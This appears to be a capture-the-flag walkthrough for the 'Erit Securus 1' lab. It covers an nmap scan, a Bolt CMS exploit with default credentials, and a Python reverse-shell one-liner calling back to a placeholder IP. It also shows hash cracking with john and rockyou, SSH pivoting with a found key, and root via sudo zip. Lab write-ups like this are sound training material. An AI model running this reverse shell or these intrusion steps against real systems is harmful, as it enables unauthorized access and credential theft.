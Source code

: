 # nmap

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-20 16:48 IST
Nmap scan report for 10.10.81.95
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b1:ac:a9:92:d3:2a:69:91:68:b4:6a:ac:45:43:fb:ed (DSA)
|   2048 3a:3f:9f:59:29:c8:20:d7:3a:c5:04:aa:82:36:68:3f (RSA)
|   256 f9:2f:bb:e3:ab:95:ee:9e:78:7c:91:18:7d:95:84:ab (ECDSA)
|_  256 49:0e:6f:cb:ec:6c:a5:97:67:cc:3c:31:ad:94:a4:54 (ED25519)
80/tcp open  http    nginx 1.6.2
|_http-generator: Bolt
|_http-server-header: nginx/1.6.2
|_http-title: Graece donan, Latine voluptatem vocant. | Erit Securus 1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

there are two open port `22 ssh ` and `80 http`

# 80 http

![image-20220720165727789](assets/image-20220720165727789.png)

its running bolt cms .

found the exploit https://www.exploit-db.com/exploits/48296

the login page uri `http://<ip>/bolt` and credentials `admin:password`

![image-20220720171034562](assets/image-20220720171034562.png)

now running the exploit

![image-20220720172046211](assets/image-20220720172046211.png)

using python reverse shell 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

gained access 

![image-20220720172208943](assets/image-20220720172208943.png)

In the app/database directory you will find the bolt.db SQLite3 database

`file bolt.db`
bolt.db: SQLite 3.x database, last written using SQLite version 3020001

Open database:

![img](assets/Fajrmfg.png)

This contains a lot of tables:


![img](assets/fcS9AJM.png)

We list the bolt user database, like this:

![img](assets/WV9wdwV.png)

We see two users, the admin we already own, the other one is a wild one.  We also see another IP address, 192.168.100.1 (note to self)

We copy the hash and save it to a file. Then run it through john the ripper, using the infamous "[rockyou](https://en.wikipedia.org/wiki/RockYou) wordlist

```
john hash -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

Using this password, we try to su as the user wileec. This works, and we should find our first flag.

![image-20220720173447580](assets/image-20220720173447580.png)

Switching user to wileec and found flag 1

![image-20220720173917533](assets/image-20220720173917533.png)

found shh key for wileec in  `/home/wileec/.ssh`

#  Pivoting                            

User wileec has a ssh private-key!

Remember the other IP address? We could try to connect to that one, using the SSH key:

```
ssh wileec@192.168.100.1
```

# privilege escalation

using `sudo -l`

![image-20220720175927918](assets/image-20220720175927918.png)

looking at tis we can see jsmith can use zip as root looking at [gtfobins](https://gtfobins.github.io/gtfobins/zip/#sudo)

![image-20220720180220806](assets/image-20220720180220806.png)

![image-20220720180610938](assets/image-20220720180610938.png)

Found flag2.txt

![image-20220720180754811](assets/image-20220720180754811.png)

Checking Jsmith sudo rights by `sudo -l` he has full sduo rights 

![image-20220720181011312](assets/image-20220720181011312.png)

found root flag 

![image-20220720181329455](assets/image-20220720181329455.png)